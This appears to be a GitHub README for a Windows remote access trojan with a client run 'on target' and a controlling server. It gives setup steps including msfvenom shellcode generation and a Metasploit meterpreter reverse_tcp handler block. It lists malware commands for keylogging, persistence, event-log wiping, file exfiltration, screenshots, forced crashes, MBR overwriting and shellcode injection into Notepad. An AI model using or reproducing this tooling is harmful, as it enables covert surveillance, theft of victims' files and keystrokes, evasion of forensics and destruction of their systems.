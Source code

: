 # Setup

After cloning the whole project and getting inside of the x86 folder:

1. If you want to be able to use inject86, open Client.c and execute the commented msfvenom command at line 59 (Replace the LHOST/LPORT according to your needs), and then replace the contents of the variable ShellcodeX86 at line 61 with the output of the command.

2. You can generate a new certificate to use if you want (a default one was already provided for ease of use). If you generate a new certificate using Setup.sh, you must copy the contents of public.crt, into the variable 'ServerPublicCertPem' in Client.c:
```bash
cd ..
./Setup.sh cert
```

3. You can now compile. Type:
```bash
cd ..
./Setup.sh compile
```

4. If everything went correctly, you should now have 4 executables: 2 clients (x64 and x86), and 2 server executables (x64 and x86). If not, there was an error when trying to compile. Make sure you did everything correctly.

5. You can now provide the IP address of the server from both client and server, by passing an argument:
```bash
Server:
	./Server-x86 start 192.168.1.1

Client (On target):
	Client-x86.exe 192.168.1.1
```

6. Before using 'inject86', open a new terminal tab, load msfconsole, and paste the lines below:
```bash
use exploit/multi/handler
set LHOST IP
set LPORT PORT
set payload windows/meterpreter/reverse_tcp
run
```

Info: Fallback shell and startcat have been removed from the x86 version due to some inconsistencies.

# Commands

q : Closes the connection with the client and exits

menu : Prints the menu showing all available commands

startlogger : Starts logging keystrokes and saves them to a file named 'out.txt' on the client machine

stoplogger : Stops logging keystrokes

persistence1 -> persistence3 : Uses hardcoded paths to establish persistence

removepers : Removes all hardcoded persistence methods used on the remote host

isvm : Performs basic checks to determine whether the client is running inside a 
virtual machine and returns the results

isadmin : Verifies whether the server has administrative privileges

cleanlogs : Removes the Event Viewer logs

updateurl : Updates the URL used to download files on the remote host

download : Downloads a file to the remote host using the URL and a specified filename

getfile : Retrieves a file from the remote host and transfers it to the server

diskspace : Returns the disk space for the C: drive

drives : Enumerates all connected drives

screenshot : Takes a screenshot of the remote host's desktop and transfers it to the server

cleanbin : Cleans the recycle bin (No popup)

hostname : Retrieves the hostname of the remote host

popup : Spawns a visible popup on the remote host (For debug)

bsodwin : Crashes the remote host, causing a BSOD (Blue Screen of Death)

wipembr : Overwrites the MBR on the remote host

inject86 : Spawns a new Notepad process and injects shellcode into it to establish a reverse shell connection to the msfconsole listener
